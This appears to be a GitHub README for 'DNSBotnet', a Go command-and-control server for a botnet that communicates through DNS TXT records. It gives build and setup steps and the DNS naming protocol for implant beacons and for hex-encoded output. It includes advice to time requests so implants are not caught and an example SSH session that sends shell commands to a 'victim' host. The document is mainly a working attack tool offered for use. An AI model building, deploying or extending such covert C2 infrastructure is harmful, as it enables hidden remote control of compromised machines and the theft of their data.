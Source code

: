 DNSBotnet
=========
Controller for a DNS TXT record-based botnet.

Work in progress, though works pretty well as-is.



More documentation (and ease-of-use) will be implemented in the future.

For legal use only.

Building / Installation
-----------------------
The botnet Controller (in the same directory as this file) can be built and
installed with the customary
```bash
go get github.com/magisterquis/dnsbotnet
```
or
```bash
git clone github.com/magisterquis/dnsbotnet
cd dnsbotnet
go build
```

Aside from the binary, an NS record for the domain to be used for beacons must
be set up such that the Controller will receive DNS requests from recursive
resolvers.  This usually means setting a glue (A) records or two and an NS
record with the registrar to point to the IP address of the Controller.

A file containing the SSH public keys should be made to authenticate C2 clients
(i.e. botnet Controller users).  This file is in the same format as OpenSSH's
`authorized_keys`. and is named `authorized_keys.dnsbotnet` by default.

Implants / Protocol
-------------------
Each individual implant has a README with more information.

There are two DNS request formats that the Controller understands: beacons
and output.  In general, clients should beacon periodically to check for
tasking, and if tasking is received, execute it and return any output with
a further series of DNS requests.

The timing of DNS requests is left up to the implant.  They should be fast
enough to allow for usage (interactive, if desired), but slow enough not to get
caught.

### Beacons
Beacon requests should have exactly one name in the following format:
```
ignored.counter.t.implantid.domain
```
The response will either contain a single text record with the task to execute
or no responses at all.  How the tasking is executed is up to the implant.  The
implants contained within this repository run the tasking as a shell command
and return its stdout and stderr.  The meaning of each part of the name will be
explained below.

### Output
Output requests should have exactly one name in the following format:
```
outhex.counter.o.implantid.domain
```
The response will always have 0 records.  The output is printed to any C2
Clients which request it, explained below.  The meaning of each part of the
name will be explained below.  The output should be carefully chunked to

### Names
Request and response names have the following parts
|Label|Meaning|Example|
|-----|-------|-------|
|ignored   | Ignored, for symmetry with beacons.                                                                                   | 0           |
|outhex    | Tasking output, hex-encoded.  The maximum length is 31 bytes (62 hex digits).                                         | 4920616d20313333370a |
|counter   | A unique number per request to prevent caching (i.e. cachebusting).                                                   | 37          |
|t         | A literal t, to signify a beacon (request for tasking).                                                               | t           |
|o         | A literal o, to signify an output request.                                                                            | o           |
|implantid | An ID chosen by the implant to uniquely identify itself.  IP addresses with dots replaced by dashes are good choices. | 192-168-11-11 |
|domain    | The malicious domain.                                                                                                 | example.com |

A beacon name might look like
```
0.3580645942777501247.t.192-168-11-11.example.com
```
An output name might look like
```
202020202020202020202020203634353220436f6e736f6c65202020202020.1150749505258401772.o.192-168-11-11.example.com
```

C2 Clients
----------
All acutal tasking of bots is done by first SSHing to the Controller, then
issuing commands via SSH.  A complete list of commands is available with the
`help` command.

The C2 client session can either be used to display tasking output or beacons
(which may be filtered to only show certain beacons of interest).

Example C2 session:
```
$ ssh -p 10987 c2server.com
Welcome to the DNSBotnet Server!

Available commands:
help        - This message
id          - Show all beacons
idr <regex> - Show beacons from implants matching regex
id <ID>     - Show a particular implant's output (not beacons)
t <ID>      - Task the current implant (after ID is set)
last [n]    - Show the [n most recent] beacons from all implants
exit        - Goodbye.

2018/02/16 05:28:54 [192-168-11-11] Beacon (2143406018522754847)
2018/02/16 05:28:56 [192-168-11-11] Beacon (2143406018522754848)
2018/02/16 05:28:58 [192-168-11-11] Beacon (2143406018522754849)
2018/02/16 05:29:01 [192-168-11-11] Beacon (2143406018522754850)
> id 192-168-11-11
2018/02/16 05:29:06 Watching implant with ID "192-168-11-11"
192-168-11-11> t uname -a
2018/02/16 05:29:12 Queued task for implant 192-168-11-11: "uname -a"
OpenBSD victim.example.com 6.2 GENERIC.MP#134 amd64
192-168-11-11> last 1
ID            Queued Last Seen
--            ------ ---------
192-168-11-11 0      2018-02-16T05:29:31Z (4.8s)

Current time is 2018-02-16T05:29:36Z
192-168-11-11> exit
```

Unless a particular implant is specified with the `id` command, only beacons
will be printed.  To interact with a particular implant, use the `id` command
to specify the implant by ID  and then the `t` command to give it tasking.
Output from tasking will be printed to the terminal.  The `last` commands work
whether an implant is selected or not.  The `idr` command and the `id` command
without an implant ID can be used to return to printing beacons.

In practical usage, it's helpful to have one C2 connection showing beacons as
they come in and one or more to interact with implants.

Logging
-------
A log file is generated with all tasking and output.  It can be used as a
history of commands run as well as to recover output lost when tasking finished
after `id` was used to view another implant's output.
